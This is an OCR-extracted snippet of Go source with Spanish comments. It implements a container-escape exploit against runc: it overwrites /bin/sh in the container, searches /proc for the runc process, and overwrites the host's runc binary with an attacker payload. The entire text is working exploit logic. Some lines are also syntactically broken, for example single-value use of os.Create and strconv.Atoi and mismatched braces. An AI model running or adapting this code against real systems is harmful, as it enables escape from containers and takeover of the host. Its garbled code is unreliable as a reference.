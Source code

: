 ```go
    fd := os.Create("/bin/sh")
    fmt.Fprintln(fd, "#!/proc/self/exe")
    fmt.Println("[+] Overwritten /bin/sh successfully")

    // Loop para encontrar el proceso correspondiente al runc
    var found int
    for found == 0 {
        pids := ioutil.ReadDir("/proc")
        for _, f := range pids {
            fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
            fstring := string(fbytes)
            if strings.Contains(fstring, "runc") {
                fmt.Println("[+] Found the PID:", f.Name())
                found = strconv.Atoi(f.Name())}}}

    // El pid sirve para abrir runc con la ruta alternativa para ejecutarlo/rescribirlo a la par
    var handleFd = -1
    for handleFd == -1 {
        // Note, la flag O_PATH no es imprescindible.
        handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
        if int(handle.Fd()) > 0 {
            handleFd = int(handle.Fd())}

    fmt.Println("[+] Successfully got the file handle")

    // Ahora sobreescribimos el binario 
    for {
        writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
        if int(writeHandle.Fd()) > 0 {
            fmt.Println("[+] Successfully got write handle", writeHandle)
            fmt.Println("[+] The command executed is" + payload)
            writeHandle.Write([]byte(payload))
            return}}}
```

